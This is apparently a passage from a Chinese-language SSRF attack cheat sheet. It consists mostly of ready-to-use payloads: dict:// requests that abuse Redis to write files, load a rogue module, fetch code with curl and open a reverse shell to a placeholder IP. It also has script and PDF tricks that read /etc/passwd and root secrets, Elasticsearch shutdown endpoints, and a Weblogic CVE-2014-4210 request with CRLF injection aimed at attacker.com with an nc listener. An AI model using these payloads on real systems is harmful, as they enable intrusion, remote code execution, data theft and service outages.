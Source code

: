	?url=dict://127.0.0.1:6379/config:set:dbfilename:test.php
	?url=dict://127.0.0.1:6379/save
	?url=dict://127.0.0.1:6379/slaveof:no:one
 ##### slaveof反弹shell
	?url=dict://127.0.0.1:6379/slaveof: yourredisIP:6379
	?url=dict://127.0.0.1:6379/config:set:dbfilename:exp.so
	?url=dict://127.0.0.1:6379/MODULE:LOAD:./exp.so
	?url=dict://127.0.0.1:6379/SLAVEOF:NO:ONE
	?url=dict://127.0.0.1:6379/config:set:dbfilename:dump.rdb
	?url=dict://127.0.0.1:6379/system.exec:'curl x.x.x.x/x'
	?url=dict://127.0.0.1:6379/system.rev:x.x.x.x:8887
 ##### SSRF+PDF
  	<link rel=attachment href="file:///root/secret.txt">
	PhantomJS示例
```javascript
<script>
    exfil = new XMLHttpRequest();
    exfil.open("GET","file:///etc/passwd");
    exfil.send();
    exfil.onload = function(){document.write(this.responseText);}
    exfil.onerror = function(){document.write('failed!')}
</script>
```
 ##### 盲SSRF
  	假设存在一个盲SSRF
 ###### Elasticsearch
  	默认端口：9200
	检查以下端点是否返回 200：
	/_cluster/health
	/_cat/indices
	/_cat/health
	如果存在POST请求的盲SSRF，可以请求以下路径关闭Elasticsearch
	仅适用于 Elasticsearch 1.6 及以下版本
	/_shutdown
	/_cluster/nodes/_master/_shutdown
	/_cluster/nodes/_shutdown
	/_cluster/nodes/_all/_shutdown
 ###### Weblogic
  	默认绑定端口：80、443（SSL）、7001、8888
	CVE-2014-4210
	POST /uddiexplorer/SearchPublicRegistries.jsp HTTP/1.1
	Host: target.com
	Content-Length: 137
	Content-Type: application/x-www-form-urlencoded

	operator=http%3A%2F%2FSSRF_CANARY&rdoSearch=name&txtSearchname=test&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
	get请求
	http://target.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http%3A%2F%2FSSRF_CANARY&rdoSearch=name&txtSearchname=test&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
	CRLF 注入
	GET /uddiexplorer/SearchPublicRegistries.jsp?operator=http://attacker.com:4000/exp%20HTTP/1.11%0AX-CLRF%3A%20Injected%0A&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search HTTP/1.0
	Host: vuln.weblogic
	Accept-Encoding: gzip, deflate
	Accept: */*
	Accept-Language: en
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
	Connection: close
	结果
	root@mail:~# nc -lvp 4000